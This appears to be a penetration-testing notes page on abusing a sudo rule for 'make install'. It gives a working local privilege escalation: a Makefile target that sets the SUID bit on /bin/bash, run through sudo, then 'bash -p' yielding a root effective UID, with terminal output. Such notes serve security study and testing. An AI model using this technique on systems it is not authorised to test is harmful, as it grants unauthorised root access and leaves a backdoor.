 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# make

[Make](https://www.gnu.org/software/make/manual/make.html) is a build automation tool that interprets instructions defined in a Makefile to compile and manage dependencies in software projects. It automates repetitive tasks by executing predefined rules, which specify how to transform source files into target files. Widely used in development environments, Make streamlines the build process by only rebuilding components that have changed, improving efficiency and consistency.

## Rule Abuse

{% code overflow="wrap" %}
```bash
x7331@kali:~$ sudo -l

User x7331 may run the following commands on kali:
    (ALL) /usr/bin/make install -C /home/x7331/php-spx
```
{% endcode %}

The above sudo command explicitly calls `make install`, which forces the make utility to look for a target named `install` inside the Makefile located in `/home/x7331/php-spx`. By placing a malicious command under the `install` target, arbitrary code execution can be achieved with `root` privileges.\
For example, adding `chmod u+s /bin/bash` to the `install` rule causes the Bash binary to have its SUID bit set.&#x20;

```bash
x7331@kali:~/php-spx$ cat Makefile
install:
        chmod  u+s /bin/bash

x7331@kali:~/php-spx$ sudo /usr/bin/make install -C /home/x7331/php-spx
make: Entering directory '/home/x7331/php-spx'
chmod  u+s /bin/bash
make: Leaving directory '/home/x7331/php-spx'
```

Once this change is made, invoking `/bin/bash -p` will start a Bash shell running with the file owner’s privileges—in this case, `root`.

```bash
x7331@kali:~/php-spx$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash

x7331@kali:~/php-spx$ /bin/bash -p
bash-5.1# id
uid=1000(x7331) gid=1000(x7331) euid=0(root) groups=1000(x7331)
```
